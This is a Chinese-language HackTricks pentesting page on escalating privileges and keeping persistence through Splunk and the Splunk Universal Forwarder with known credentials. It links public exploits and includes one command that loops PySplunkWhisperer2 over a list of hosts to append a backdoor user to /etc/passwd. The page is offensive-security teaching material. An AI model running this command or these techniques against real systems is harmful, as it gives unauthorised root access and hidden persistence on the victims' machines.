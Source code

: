 # Splunk LPE 和持久性

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

如果在**内部**或**外部**枚举一台机器时发现**Splunk 正在运行**（端口 8090），如果你幸运地知道任何**有效凭据**，你可以**利用 Splunk 服务**以运行 Splunk 的用户身份**执行 shell**。如果是 root 用户在运行，你可以提升权限到 root。

此外，如果你**已经是 root 并且 Splunk 服务不仅在本地主机上监听**，你可以**窃取** Splunk 服务的**密码**文件并**破解**密码，或者**添加新的**凭据。并在主机上保持持久性。

在下面的第一张图片中，你可以看到 Splunkd 网页的样子。



## Splunk Universal Forwarder Agent 漏洞总结

有关更多详细信息，请查看帖子 [https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/](https://eapolsniper.github.io/2020/08/14/Abusing-Splunk-Forwarders-For-RCE-And-Persistence/)。这只是一个总结：

**漏洞概述：**
针对 Splunk Universal Forwarder Agent (UF) 的漏洞允许拥有代理密码的攻击者在运行该代理的系统上执行任意代码，可能会危及整个网络。

**关键点：**
- UF 代理不验证传入连接或代码的真实性，使其容易受到未经授权的代码执行攻击。
- 常见的密码获取方法包括在网络目录、文件共享或内部文档中查找。
- 成功利用可能导致在受损主机上获得 SYSTEM 或 root 级别的访问权限、数据外泄和进一步的网络渗透。

**漏洞执行：**
1. 攻击者获取 UF 代理密码。
2. 利用 Splunk API 向代理发送命令或脚本。
3. 可能的操作包括文件提取、用户账户操作和系统妥协。

**影响：**
- 在每个主机上完全妥协网络，获得 SYSTEM/root 级别权限。
- 可能禁用日志记录以逃避检测。
- 安装后门或勒索软件。

**利用示例命令：**
```bash
for i in `cat ip.txt`; do python PySplunkWhisperer2_remote.py --host $i --port 8089 --username admin --password "12345678" --payload "echo 'attacker007:x:1003:1003::/home/:/bin/bash' >> /etc/passwd" --lhost 192.168.42.51;done
```
**可用的公共漏洞：**
* https://github.com/cnotin/SplunkWhisperer2/tree/master/PySplunkWhisperer2
* https://www.exploit-db.com/exploits/46238
* https://www.exploit-db.com/exploits/46487


## 滥用 Splunk 查询

**有关更多详细信息，请查看帖子 [https://blog.hrncirik.net/cve-2023-46214-analysis](https://blog.hrncirik.net/cve-2023-46214-analysis)**

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
